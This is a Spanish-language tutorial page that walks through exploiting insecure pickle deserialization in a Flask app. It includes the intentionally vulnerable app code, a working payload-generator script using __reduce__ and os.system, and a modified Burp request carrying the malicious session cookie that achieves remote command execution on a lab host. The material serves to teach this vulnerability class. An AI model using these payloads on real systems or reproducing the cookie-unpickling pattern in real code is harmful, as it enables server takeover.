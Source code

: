 ```yaml
---
icon: python
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura Python

## Pagina Vulnerable Deserialización Insegura en Python

Si nosotros por ejemplo tenemos este codigo de `python` como una pagina por ejemplo:

> app.py

```python
import pickle
import base64
from flask import Flask, request, make_response, render_template, redirect, url_for

app = Flask(__name__)

# Base de datos de usuarios (simulada)
users = {
    "admin": "admin123",
    "user1": "password1",
    "user2": "password2"
}

# Clase del usuario (con deserialización insegura)
class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

    def __str__(self):
        return f"{self.username} ({self.role})"

@app.route("/")
def index():
    # Obtener la cookie
    session_cookie = request.cookies.get("session")

    if session_cookie:
        try:
            # Deserializar la cookie (VULNERABILIDAD)
            user = pickle.loads(base64.b64decode(session_cookie))
        except Exception as e:
            user = f"Error deserializando: {e}"
    else:
        user = "Invitado"

    return render_template("index.html", user=user)

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        if username in users and users[username] == password:
            # Crear el objeto de usuario
            user = User(username, "admin" if username == "admin" else "user")

            # Serializar el objeto inseguramente con pickle
            session_data = base64.b64encode(pickle.dumps(user)).decode()

            # Crear la cookie con la sesión serializada
            response = make_response(redirect(url_for("index")))
            response.set_cookie("session", session_data)

            return response
        else:
            return "Credenciales inválidas", 403

    return render_template("login.html")

if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que no valida la entrada que se serializa y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad, si entramos en la pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
admin:admin123
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario user y veremos lo siguiente en la `peticion` con `BurpSuite`:

> Peticion de `BurpSuite`

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVOgAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMCHVzZXJuYW1llIwFYWRtaW6UjARyb2xllIwFYWRtaW6UdWIu
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo serializado con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `python3` para generar codigos `serializados`:

> exploitSerial.py

```python
import pickle
import base64
import os
import argparse

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))

def generate_payload(command):
    """Genera una cookie maliciosa con el comando proporcionado."""
    try:
        payload = base64.b64encode(pickle.dumps(RCE(command))).decode()
        print(f"[+] Payload generado con el comando: {command}")
        print(f"[+] Cookie maliciosa: {payload}")
    except Exception as e:
        print(f"[!] Error generando el payload: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generador de cookies maliciosas con RCE en Flask")
    parser.add_argument("command", help="Comando a ejecutar en el servidor víctima")

    args = parser.parse_args()
    generate_payload(args.command)
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploitSerial.py 'touch /var/www/html/text.txt | whoami > /var/www/html/text.txt'
```

Info:

```
[+] Payload generado con el comando: touch /var/www/html/text.txt | whoami > /var/www/html/text.txt
[+] Cookie maliciosa: gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos directamente a la `IP` para ver si el archivo se subio de forma correcta:

```
URL = http://<IP>/text.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
